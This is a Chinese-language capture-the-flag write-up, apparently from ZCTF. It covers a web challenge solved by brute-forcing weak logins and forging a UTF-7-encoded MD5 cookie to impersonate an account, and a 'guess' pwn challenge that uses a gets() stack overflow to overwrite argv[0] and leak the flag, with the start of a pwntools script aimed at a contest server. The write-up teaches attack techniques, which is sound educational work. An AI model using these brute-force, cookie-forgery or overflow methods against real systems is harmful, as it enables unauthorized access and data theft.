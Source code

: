 老大知道flag

首先爆破常用姓名  最后可以登录zhangwei 123456

登录上去之后发现通讯录  还有md5过的cookie  解不开

[![](https://p3.ssl.qhimg.com/t01147fc63c5ea79ac0.png)](https://p3.ssl.qhimg.com/t01147fc63c5ea79ac0.png)

然后爆破通讯录里的弱口令

可以得到 niubenben  123456789

继续登录 发现cookie可以解  解完之后是 9+ADk-

可以推算老大 是1+xxxx    最后尝试多次发现+ADk- 是utf-7的编码  

于是构造老大的cookie

[![](https://p1.ssl.qhimg.com/t01261c22110032acba.png)](https://p1.ssl.qhimg.com/t01261c22110032acba.png)

再md5下   用burp发包 拿到flag 

[![](https://p4.ssl.qhimg.com/t0133e31ecac4f1f7f4.png)](https://p4.ssl.qhimg.com/t0133e31ecac4f1f7f4.png)

**PWN**

guess(pwn100):

题目逻辑比较简单,gets的缓冲区是栈上的,可以任意长度读入,而栈的缓冲区长度是40。如下:

[![](https://p0.ssl.qhimg.com/t01d1930333f78b9bbe.png)](https://p0.ssl.qhimg.com/t01d1930333f78b9bbe.png)

由于直接与flag相比较,所以这里flag是存在于内存中的。由于做了限制,必须以ZCTF`{`开头,而且长度一定,所以这里首先得暴力长度,根据返回的结果判断长度是否正确。

长度开始为33,后来改为34。

由 于栈的前面存在有主函数main(int argc, char** argv)的参数值,而这个参数argv[0]即为程序的名字,在异常时会显示在错 误信息后面,所以只要覆盖栈中argv[0]的地址为特定地址就可以达到任意地址泄露。所以可以泄露原flag的信息。

由 于::s(flag存放的地址)最后会与输入值做异或,所以最后只要反异或就可以。由于开始的时候ZCTF`{`这个地方异或后肯定为0,所以打印的时候,地 址应该往后靠点:如+5,另外选取的异或数也可能余flag中的相同,存在0截断,所以可以多打印些地址,这里直接选用‘b’,发现能够全部泄露出来(第五个5以后的)。

利用代码如下:



```
__author__ = "pxx"
#from zio import *
from pwn import *
#target = "./guess"
target = ("115.28.27.103", 22222)
def get_io(target):
#r_m = COLORED(RAW, "green")
#w_m = COLORED(RAW, "blue")
#io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
#io = process(target, timeout = 9999)
io = remote("115.28.27.103", 22222, timeout = 9999)
return  io 
def leak_len(io, length):
io.readuntil("please guess the flag:n")
flag_addr = 0x6010C0
payload = 'a' * length + "x00"
#io.gdb_hint()
io.writeline(payload)
result = io.readuntil("n")
print result
#io.close(0)
if "len error" in result:
return False
```